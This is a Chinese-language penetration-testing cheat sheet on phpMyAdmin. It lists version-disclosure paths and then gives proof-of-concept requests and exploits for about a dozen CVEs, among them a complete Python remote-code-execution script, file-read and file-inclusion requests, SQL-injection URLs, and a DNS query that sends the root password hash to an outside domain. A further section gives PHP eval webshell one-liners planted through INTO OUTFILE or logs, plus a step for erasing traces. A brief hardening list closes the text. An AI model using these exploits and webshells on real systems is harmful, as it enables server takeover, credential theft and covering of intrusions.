



---
tags:
  - 中间件
create_time: 2024-11-11 21:56
modified_time: 2024-11-11 21:56
status: complete
---
## 0x01 release

```text
phpMyAdmin 5.2未来版本与PHP7.2及更高版本和MySQL/MariaDB 5.5及更高版本兼容。
phpMyAdmin 5.1.1当前版本与PHP7.1及更新版本和MySQL/MariaDB 5.5及更新版本兼容。
phpMyAdmin 5.0.0与PHP 7.1及更新版本和MySQL/MariaDB 5.5及更新版本兼容的旧版本。一直支持到2021年2月24日。
phpMyAdmin 4.9.7旧版本，兼容PHP5.5至7.4和MySQL/MariaDB 5.5及更新版本。当前仅支持安全修复程序。
phpMyAdmin4.9.0当前版本与PHP5.5至7.3和MySQL 5.5及更新版本兼容。
phpMyAdmin4.8.0 phpMyAdmin4.6.0-4.7.0旧版本，兼容PHP5.5至7.1和MySQL 5.5及更新版本。支持期至2017年4月1日。
phpMyAdmin4.4.0旧版本，与PHP5.3.7至7.0和MySQL 5.5兼容。一直支持到2016年10月1日。
phpMyAdmin4.1.0-4.3.0旧版本，与PHP5.3和MySQL 5.5兼容。一直支持到2015年10月1日。
phpMyAdmin4.0.0旧版本，与PHP5.2和MySQL 5兼容。不支持PHP 5.5或更新版本。支持期至2017年4月1日。
```

## 0x02 查看版本

```text
/readme
/changelog
/Change
/changelog.php  
/Documetation.html 
/Documetation.txt 
/translators.html
/doc/html/index.html
```

## 0x03 poc & exp

### 1 万能密码
```
​弱口令：版本phpmyadmin2.11.9.2， 直接root用户登陆，无需密码
 
​万能密码：版本2.11.3 / 2.11.4，用户名'localhost'@'@"则登录成功
```

### 2 CVE-2009-1151：远程代码执行

```
漏洞位置：配置文件/config/config.inc.php
 
影响版本：phpmyadmin 2.11.x < 2.11.9.5 and 3.x < 3.1.3.1
 
​利用模块：msf>> exploit/unix/webapp/phpmyadmin_config
```

### 3 CVE-2012-5159：任意PHP代码攻击
```
漏洞位置：文件server_sync.php中包含外部文件导致
 
影响版本：phpMyAdmin v3.5.2.2
 
​利用模块：msf>> exploit/multi/http/phpmyadmin3522_backdoor
```

### 4 CVE-2013-3238：远程PHP代码执行
```
漏洞位置：preg_replace()函数可被利用在服务器端执行任意PHP代码
 
​影响版本：phpmyadmin 3.5.x < 3.5.8.1 and 4.0.0 < 4.0.0-rc3 ANYUN.ORG
 
​利用模块：msf>> exploit/multi/http/phpmyadminpregreplace
```

### 5 WooYun-2016-199433：任意文件读取漏洞
```
影响版本：phpMyAdmin version 2.x版本
 
POC如下：
 
POST /scripts/setup.php HTTP/1.1 
Host: target.com
Accept-Encoding: gzip, deflate Accept: */*
Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trid ent/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded 
Content-Length: 80
 
 
action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

### 6 CVE-2014 -8959：本地文件包含
```
影响范围：phpMyAdmin version=4.0.1~4.2.12 && PHP version<5.3.4
 
POC如下：
 
GET /gis_data_editor.php?token=改为你的token值&gis_data[gis_type]=/../../../../phpinfo.txt%00 HTTP/1.1 
Host: target.com
Accept-Encoding: gzip, deflate Accept: */*
Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trid ent/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded 
Content-Length: 80
```

### 7 CVE-2016-5734 ：后台命令执行RCE
```python
影响范围：
    phpMyAdmin version
	    4.0.10.16 之前的4.0.x版本
	    4.4.15.7  之前的 4.4.x版本
	    4.6.3     之前的 4.6.x版本
    PHP version
	    4.3.0~5.4.6
    Php 5.0 版本以上的将 preg_replace 的 /e修饰符给废弃掉了
 
POC如下：
 
#!/usr/bin/env python
 
"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""
 
import requests
import argparse
import sys
 
__author__ = "@iamsecurity"
 
if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"
 
    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)
 
    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)
 
    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
 
 
 
使用：python3 cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');" 
```

### 8 CVE-2017-1000499 跨站请求伪造
```
影响范围：
    phpMyAdmin version
    	Phpmyadmin:4.7.6  
	    Phpmyadmin:4.7.0:Beta1  
	    Phpmyadmin:4.7.0:Rc1  
	    Phpmyadmin:4.7.5  
	    Phpmyadmin:4.7.4
 
POC如下：
 
 
# Exploit Title: phpMyAdmin 4.7.x - Cross-Site Request Forgery
# Date: 2018-08-28
# Exploit Author: VulnSpy
# Vendor Homepage: https://www.phpmyadmin.net/
# Software Link: https://www.phpmyadmin.net/downloads/
# Version: Versions 4.7.x (prior to 4.7.7)
# Tested on: php7 mysql5
# CVE: CVE-2017-1000499
 
# Exploit CSRF - Modifying the password of current user
 
<p>Hello World</p>

 
# Exploit CSRF - Arbitrary File Write
 
<p>Hello World</p>
' into outfile '/var/www/html/test.php';"
style="display:none;" />
 
# Exploit CSRF - Data Retrieval over DNS
 
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE
user='root' LIMIT 1),'.vulnspy.com\\test'));
 
# Exploit CSRF - Empty All Rows From All Tables
 
<p>Hello World</p>

```

### 9 CVE-2018-12613：后台文件包含
```
影响范围：phpMyAdmin version 4.8.0和4.8.1
 
POC如下：
 
1）执行SQL语句，将PHP代码写入Session文件中：
    select '<?php phpinfo();exit;?>'
2）包含session文件：
    http://10.1.1.10/index.php?target=db_sql.php%253f/../../../../../../../../var/l ib/php/sessions/sess_*** 		# *** 为phpMyAdmin的COOKIE值
```

### 10 CVE-2018-19968：任意文件包含/RCE
```
影响范围：phpMyAdmin version 4.8.0~4.8.3
 
POC如下：
 
1）创建数据库，并将PHP代码写入Session文件中：
CREATE DATABASE foo;CREATE TABLE foo.bar (baz VARCHAR(100) PRIMARY KEY );INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
 
2）生成foo数据库的phpMyAdmin的配置表，访问：
http://10.1.1.10/chk_rel.php?fixall_pmadb=1&db=foo
 
3）篡改数据插入pma column_info中：
INSERT INTO` pma__column_infoSELECT '1', 'foo', 'bar', 'baz', 'plop','plop', ' plop', 'plop','../../../../../../../../tmp/sess_***','plop'; # *** 为phpMyAdmin 的COOKIE值
这里要注意不同系统的session保存位置不同，具体系统可以在phpMyAdmin登录后首页看到
    MacOS： /var/tmp
    Linux： /var/lib/php/sessions
    phpStudy： /phpstudy/PHPTutorial/tmp/tmp
 
4）访问包含Session文件的地址：
http://10.1.1.10/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[ multi_edit][][]=baz&clause_is_unique=1
```

### 11 CVE-2019-12922 跨站请求伪造
```
影响范围：phpMyAdmin version <= 4.9.0.1

POC如下：
1）在登录状态下，添加一个服务器：
http://192.168.1.1/phpmyadmin/setup/index.php
```



```
2）点击删除服务器时，通过工具抓包：
```

参数id对应的是第几个服务器，在这里构造吸引人去点击的恶意链接。

### 12 CVE-2020-0554：后台SQL注入
```
影响范围：phpMyAdmin version 
    phpMyAdmin 4 < 4.9.4 
    phpMyAdmin 5< 5.0.1
	前提：已知一个用户名密码
 
POC如下：
 
流程总结：
    Step1: 页面位置server_privileges.php；
    Step2: 设置变量ajax_requests为true；
    Step3: 设置变量validate_username 为真值；
    Step4: 设置变量username 为我们拼接的注入语句。
 
具体利用：
    1）构造payload：
    http://192.168.209.139:8001/server_privileges.php?ajax_requests=true&validate_username=1&username=1%27or%201=1%20--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
    token和其余参数会在访问页面的时候自动提供
    执行完毕后程序只会告知SQL是否执行成功，失败会报错，因此此处我们可以利用报错注入。
    2）继续构造payload：
    http://192.168.209.139:8001/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
    看到已经成功执行了我们注入的指令。
 
```

## 0x04 总结
getshell实用方法(常规版本||非常规版本)
### 1 通过写入getshell
```mysql
1、查询是否有写入条件：
 
    show VARIABLES like '%secure_file_priv%'  == null 则没有条件，换成日志写入 （secure_file_priv值可在mysql中的my.ini中修改）
 
    show global variables like "secure%" 也可以查询
 
2、当具备条件时，写入一句话文件：
 
    select  '<?php eval($_POST["pwd"]); ?>'  into outfile  'D:/phpStudy_pro/WWW/shell.php';
 
3、其他信息收集查询命令：
 
    show variables like '%char%'  === 查看系统变量
 
    select @@datadir  ==== 系统路径
 
    set PASSWORD=PASSWORD("****")   ========改登入密码（危害大）
```

### 2 利用日志getshell
```
1、条件：
 
    set global  general_log = 'on'   日志保存状态
 
    set global general_log_file = ""  日志保存路径
 
2、写入shell：        
 
    select '<?php eval($_POST[pwd]); ?>';
```

### 3 新建表getshell
```
1、进入一个数据库，新建数据表。
    命令：Create TABLE shell_table (xxx text NOT NULL)
 
2、添加字段
    字段名任意，xxx
    字段类型为TEXT
 
3、在该表中点击插入，值为一句话木马
    <?php eval($_POST[pwd]); ?>'
    命令：Insert INTO shell_table (xxx) VALUES('<?php eval($_POST[1]);?>');
4、执行SQL查询，将该表中的内容导出到指定文件
    select * from shell_table into outfile "D:/phpstudy_pro/WWW/shell.php";
5、删除该表，抹除痕迹
    Drop TABLE IF EXISTS shell_table;
```

### 4 phpMyadmin的防护

1.删除phpinfo.php、I.php等泄露敏感信息的文件。
2.修改phpstudy、lamp等软件的默认网站路径。
3.修改默认账号密码，密码至少15位以上，字母大小写+特殊字符+数字
4.严格控制目录的读写权限。
5.更改Phpmyadmin的默认路径，并且删除README文件。
6.网站假设好之后删除无关文件，如果源代码打包过，一定要及时进行删除操作。
7.在连接数据库的时候配置非root账号，单独配置一个低权限的数据库用户。
8.不是经常使用phpmyadmin，可以考虑安装完成之后进行删除处理。

